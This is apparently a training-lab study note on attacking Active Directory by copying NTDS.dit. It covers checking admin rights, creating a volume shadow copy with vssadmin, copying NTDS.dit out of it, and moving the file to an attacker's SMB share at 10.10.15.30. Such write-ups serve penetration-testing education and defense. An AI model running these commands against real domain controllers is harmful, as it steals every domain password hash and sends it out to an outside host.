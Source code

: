 # Attacking Active Directory NTDS.dit

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/5695c495-1b02-471a-9aac-cc2a54a8155d)

Once a Windows system is joined to a domain, it will no longer default to _referencing the SAM database to validate logon requests_
Keep in mind that we can also study NTDS attacks by keeping track of this [technique](https://attack.mitre.org/techniques/T1003/003/).

# Capturing NTDS.dit
The `.dit` stands for directory information tree. This is the primary database file associated with AD and stores all domain **usernames**, password **hashes**, and other critical schema information.
`NT Directory Services (NTDS)` is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at %systemroot$/ntds on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model).

To make a copy of the `NTDS.dit` file, we need `local admin` (Administrators group) or `Domain Admin` (Domain Admins group) (or equivalent) rights.<br>
Checking local group membership from powershell:
```bash
net localgroup
```
Checking User Account Privileges including Domain
```bash
net user username
```
This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

# Creating Shadow Copy of C:
From powershell:
```bash
vssadmin CREATE SHADOW /For=C:
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/675095d8-1f51-41d8-bb56-4baa179f2d3e)

## Copying NTDS.dit from the VSS
```bash
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
To transfer file into linux smb server:
```bash
PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```
